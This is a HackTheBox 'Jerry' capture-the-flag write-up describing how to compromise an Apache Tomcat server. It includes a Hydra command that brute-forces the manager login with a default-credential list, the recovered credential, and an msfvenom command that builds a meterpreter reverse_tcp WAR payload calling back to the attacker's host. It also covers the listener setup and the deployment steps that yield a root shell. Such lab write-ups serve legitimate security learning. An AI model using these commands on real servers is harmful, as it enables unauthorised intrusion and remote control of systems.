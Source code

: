 # HackTheBox - Jerry

### What I Learned

1. Use hydra for web logins on popup windows
2. Always check for executable files within a single upload folder
3. Know the difference between staged and unstaged payloads in meterpreter

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan the machine and find a webpage open and find an Apache Tomcat Page. Use default credentials to login. Look through the different managers and dashboards on the home page and find a page that allows for upload of WAR files. Generated a WAR file payload in the .jsp format. Upload it, unzip it, and navigate to the file into the server to get a reverse shell with root privileges.
</details>
<br>

## Writeup

Scan the machine

Nmap scan the machine and check directories with gobuster.

Find port 8080 open, navigate and find a default installation of Apache Tomcat. Start clicking around to different managers and dashboards on the home page.

![alt text](images/image.png)

Find Status, Manager App, and Host Manager
For http forms, use http-get or http-post, depending on the API call on the page

- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.129.107.192:8080/manager/html`

Try default working credentials and get working credential
`tomcat:s3cret`

Login and find a file upload option in the machines
Look at the examples of the uploaded WAR files

- WAR files are java packages
- In this instance, the files are of the format ".jsp"

Search for a meterpreter shell

- `msfvenom -l payloads | grep 'meterpreter\|windows\|x64'`
- `msfvenom -l payloads | grep 'windows/x64/meterpreter'`

Generate the payload in a war format

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.209 LPORT=8686 -f war-o payload.war`

  Staged vs Unstaged

  - Meterpreter_reverse_tcp
  - Meterpreter/reverse_tcp

Open Meterpreter and use the meterpreter listener on multi/handler

- `set LPORT 8686`
- `set LHOST tun0`

Upload the war file using the Browse/Deploy window
Run the War file, but it doesn't work.

![alt text](images/image-1.png)

- unzip the file, check for the jsp file inside the war file, copy its name, and paste it into the filepath on the server

You have root privileges
